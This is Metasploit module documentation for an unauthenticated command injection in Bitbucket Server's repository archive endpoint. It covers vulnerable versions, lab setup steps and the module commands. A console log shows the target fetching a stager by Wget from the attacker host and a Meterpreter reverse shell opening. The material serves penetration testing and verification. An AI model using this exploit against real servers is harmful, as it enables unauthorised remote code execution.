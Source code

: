 ## Vulnerable Application

Various versions of Bitbucket Server and Data Center are vulnerable to
an unauthenticated command injection vulnerability in multiple API endpoints.

The `/rest/api/latest/projects/{projectKey}/repos/{repositorySlug}/archive` endpoint
creates an archive of the repository, leveraging the `git-archive` command to do so.
Supplying NULL bytes to the request enables the passing of additional arguments to the
command, ultimately enabling execution of arbitrary commands.

According to the [advisory](https://confluence.atlassian.com/bitbucketserver/bitbucket-server-and-data-center-advisory-2022-08-24-1155489835.html), vulnerable versions of Bitbucket are:

  Any version released after version `6.10.17` and before:
          * `7.6.17`
          * `7.17.10`
          * `7.21.4`
          * `8.0.3`
          * `8.1.3`
          * `8.2.2`
          * `8.3.1`

Download archives can be found [here](https://www.atlassian.com/software/bitbucket/download-archives).
    
### Installation Instructions

1. Install Git on the target machine
  * sudo apt install -y git
2. Download a vulnerable version of Bitbucket. For example, version `8.2.1` can be found
[here](https://www.atlassian.com/software/stash/downloads/binary/atlassian-bitbucket-8.2.1-x64.bin)
3. Make sure the resulting bin file is executable and run it
  * chmod +x atlassian-bitbucket-8.3.0-x64.bin && sudo ./atlassian-bitbucket-8.3.0-x64.bin
4. An installation wizard will pop up. Make sure `Install a new instance` is checked, then click `Next`
5. Check `Install a Server instance` and click `Next`
6. If the default destination directory looks good, click `Next`
7. Click `Next` if the default Bitbucket data directory looks fine
8. Make sure the `Use default HTTP port (7990)` selection is checked and click `Next`
9. Make sure the `Install Bitbucket as a service` box is checked and click `Next`
10. Click `Install` if everything looks correct on the summary screen
11. Once the installation completes, make sure the `Would you like to launch Bitbucket` option is selected
and click `Next`
12. Ensure `Launch Bitbucket <version> in browser` is selected and click `Finish`
13. Navigate to the Bitbucket setup page (http://localhost:7990) and select the `I need an evaluation license` option
14. If you already have an account, select `I have an account`; otherwise, create a new account
15. 'up and running' should be selected on the next page, so click `Generate License`
16. Confirm that the prompt gives you the correct server, then click `Yes`
17. The license should be entered in the box, so select `Next`
18. Finally, set up an administrator account

*Note*: If an error occurs on the last step, just open a browser and navigate to the setup
page at 127.0.0.1:7990

### Vulnerable Setup

1. Log into Bitbucket with your administrator credentials
2. Once logged in, select `Projects` at the top menu
3. Select `Create project`
4. Enter a name for the project and click `Create project`
5. On the next page, select `Create repository`
6. Enter a name for the repository and select `Create repository`
7. Follow the instructions to clone the repository and push data to the repository so it is not empty
8. Click the gear on the left side of the next page
9. Select `Repository permissions` under `Security` on the left
10. Underneath `Public access`, check `Enable` to make the repository public

Bitbucket should now be exploitable

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bitbucket_git_cmd_injection`
4. Do: `run`
5. You should get a shell.

## Options

### USERNAME

An optional username to authenticate to Bitbucket with

### PASSWORD

An optional password to authenticate to Bitbucket with

### Bitbucket version 8.2.1 on Ubuntu 22.04

```
msf > use exploit/linux/http/bitbucket_git_cmd_injection
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/bitbucket_git_cmd_injection) > set rhost 192.168.140.216
rhost => 192.168.140.216
msf exploit(linux/http/bitbucket_git_cmd_injection) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(linux/http/bitbucket_git_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Searching Bitbucket for publicly accessible repository
[+] Found public repo 'repo_name' in project 'TEST'!
[*] Using URL: http://192.168.140.1:8080/7SGXRWRlXr8t
[*] Client 192.168.140.216 (Wget/1.21.2) requested /7SGXRWRlXr8t
[*] Sending payload to 192.168.140.216 (Wget/1.21.2)
[*] Sending stage (3020772 bytes) to 192.168.140.216
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.216:57994) at 2022-09-20 18:40:27 -0500
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: atlbitbucket
meterpreter > sysinfo
Computer     : 192.168.140.216
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
